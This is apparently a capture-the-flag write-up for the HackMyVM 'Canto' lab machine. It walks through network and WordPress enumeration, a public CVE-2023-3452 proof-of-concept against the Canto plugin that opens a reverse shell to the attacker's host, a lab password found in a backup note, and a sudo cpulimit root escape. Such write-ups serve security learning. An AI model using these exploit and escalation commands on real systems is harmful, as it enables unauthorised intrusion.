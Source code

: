 ```yaml
---
title: "HackMyVM - Canto"
date: 2024-06-05 12:00:00 +/-0530
categories: [HackMyVM]
tags: [CTF, HMV]     # TAG names should always be lowercase
---
```



![logo](../assets/img/Canto/intro.png)


## Description


- **Title** : Canto
- **Difficulty** : Easy
- **Release date** : 2024-06-05
- **Notes** : *Enjoy it!! ;)*
- **Download** [here](https://downloads.hackmyvm.eu/canto.zip) !



## Foothold 

### Recon

To know the vulnerable IP address, we'll use **Netdiscover** : 
```bash
netdiscover -i "wlo1" -r 192.168.1.0/24
```

The output is : 
```bash
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------    192.168.1.200   08:00:27:0b:91:9f      1      60  PCS Systemtechnik GmbH        

------------------------------- REDACTED -------------------------------------
 ```

### Enumeration

We have the IP address, so we can start a scan : 
```bash
rustscan -a 192.168.1.200 -r 1-65535 -- -A -oN nmap.txt
```

Look at the output : 
```bash
# Nmap 7.93 scan initiated Wed Jun  5 11:24:31 2024 as: nmap -vvv -p 22,80 -A -oN nmap.txt 192.168.1.200
Nmap scan report for canto.lan (192.168.1.200)
Host is up, received arp-response (0.00035s latency).
Scanned at 2024-06-05 11:24:31 CEST for 10s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.3p1 Ubuntu 1ubuntu3.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c6af1821fa3f3cfc9fe4ef04c916cbc7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKkMLZHCokv5rpKTUUfitgdTSiyieZXC1kqsQS8DEnLgk6x5fOmlzHim2qgiwoJhyEJa7Nj1k3K6pwm5RVxEjEU=
|   256 ba0e8f0b2420dc75b71b04a181b66d64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDR8+o8qabpIHzS2zgBZDxfX0Tm5eWBBstEt5QeYN04+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 6.5.3
|_http-server-header: Apache/2.4.57 (Ubuntu)
|_http-title: Canto
MAC Address: 08:00:27:0B:91:9F (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=6/5%OT=22%CT=%CU=42194%PV=Y%DS=1%DC=D%G=N%M=080027%TM=
OS:66602ED9%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%T
OS:S=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=
OS:M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=F
OS:E88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=
OS:A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
OS:Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=40%CD=S)

Uptime guess: 16.367 days (since Mon May 20 02:36:06 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.35 ms canto.lan (192.168.1.200)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  5 11:24:41 2024 -- 1 IP address (1 host up) scanned in 9.96 seconds
```

There are two open ports. The SSH service doesn't seem vulnerable.

Open your web browser and go to ``http://192.168.1.200/`` :

![Webpage](../assets/img/Canto/web.png)

Use **Gobuster** to discover new directories : 
```bash
gobuster dir --url 'http://192.168.1.200' -w /opt/seclists/Discovery/Web-Content/big.txt -x html,php,zip,txt,7z,bak,pdf
```

As you can see, this is a WordPress website : 
```bash
/index.php            (Status: 301) [Size: 0] [--> http://192.168.1.200/]
/license.txt          (Status: 200) [Size: 19915]
/readme.html          (Status: 200) [Size: 7401]
/server-status        (Status: 403) [Size: 278]
/wp-admin             (Status: 301) [Size: 317] [--> http://192.168.1.200/wp-admin/]
/wp-content           (Status: 301) [Size: 319] [--> http://192.168.1.200/wp-content/]
/wp-includes          (Status: 301) [Size: 320] [--> http://192.168.1.200/wp-includes/]
/wp-config.php        (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 5147]
/wp-trackback.php     (Status: 200) [Size: 135]
Progress: 163808 / 163816 (100.00%)
/xmlrpc.php           (Status: 405) [Size: 42]
```

### WordPress Enum

Thanks to **WPScan**, we can know more about WordPress website : 
```bash
wpscan --url 'http://192.168.1.200/' -e u
```

Its find only one user : 
```bash
[i] User(s) Identified:

[+] erik
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.1.200/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

I tried to brute force the ``wp-login.php`` but it doesn't work. I was really stuck but I remember that the machine name is often a hint. 

So, I searched for ``Canto exploit WordPress`` and I found this : https://github.com/leoanggal1/CVE-2023-3452-PoC

Check if this plugin is installed on the server. Go to ``http://192.168.1.200/wp-content/plugins/canto/`` : 

![Canto](../assets/img/Canto/url.png)

Yes, it is installed ! 

Use the exploit to get a reverse shell : 
```bash
python3 CVE-2023-3452.py -u http://192.168.1.200 -LHOST 192.168.1.43 -NC_PORT 1337 -s shell.php
```

Type ``id`` and we are ``www-data``.

## User 

We have a user called **Erik**. Go into the ``home`` folder and there are some notes : 
```bash
$ ls -la
total 36
drwxr-xr-- 5 erik www-data 4096 May 12 13:56 .
drwxr-xr-x 3 root root     4096 May 12 14:24 ..
lrwxrwxrwx 1 root root        9 May 12 13:56 .bash_history -> /dev/null
-rw-r--r-- 1 erik erik      220 Jan  7  2023 .bash_logout
-rw-r--r-- 1 erik erik     3771 Jan  7  2023 .bashrc
drwx------ 2 erik erik     4096 May 12 12:21 .cache
drwxrwxr-x 3 erik erik     4096 May 12 12:03 .local
-rw-r--r-- 1 erik erik      807 Jan  7  2023 .profile
drwxrwxr-x 2 erik erik     4096 May 12 17:22 notes
-rw-r----- 1 root erik       33 May 12 12:22 user.txt
$ cd notes
$ ls -la
total 16
drwxrwxr-x 2 erik erik     4096 May 12 17:22 .
drwxr-xr-- 5 erik www-data 4096 May 12 13:56 ..
-rw-rw-r-- 1 erik erik       68 May 12 12:07 Day1.txt
-rw-rw-r-- 1 erik erik       71 May 12 17:22 Day2.txt
$ cat Da*	
On the first day I have updated some plugins and the website theme.
I almost lost the database with my user so I created a backups folder.
$
```

We need to find a backups folder. You can use **Find** or do this manually.

Go to ``/var/wordpress/backups`` and print the note : 
```bash
$ cat 12052024.txt
------------------------------------
| Users	    |      Password        |
------------|----------------------|
| erik      | th1sIsTheP3ssw0rd!   |
------------------------------------
$
```

Use **SSH** to connect with **Erik** user ! 

```bash
erik@canto:~$ cat user.txt 
d41d8cd98f00b204e9800998ecf8427e
erik@canto:~$
```


## Root

To finish, we need to be root.

Check sudo permissions with ``sudo -l`` :
```bash
erik@canto:~$ sudo -l
Matching Defaults entries for erik on canto:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User erik may run the following commands on canto:
    (ALL : ALL) NOPASSWD: /usr/bin/cpulimit
erik@canto:~$
```

Thanks to [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/), we'll be root ! Use this command : ``sudo cpulimit -l 100 -f /bin/sh`` : 

```bash
# id && pwd     
uid=0(root) gid=0(root) groups=0(root)
/root
#
```

We are root ! 

```bash
# cat root.txt
1b56eefaab2c896e57c874a635b24b49
#
```


## Conclusion

The box was interesting. Thanks for reading !
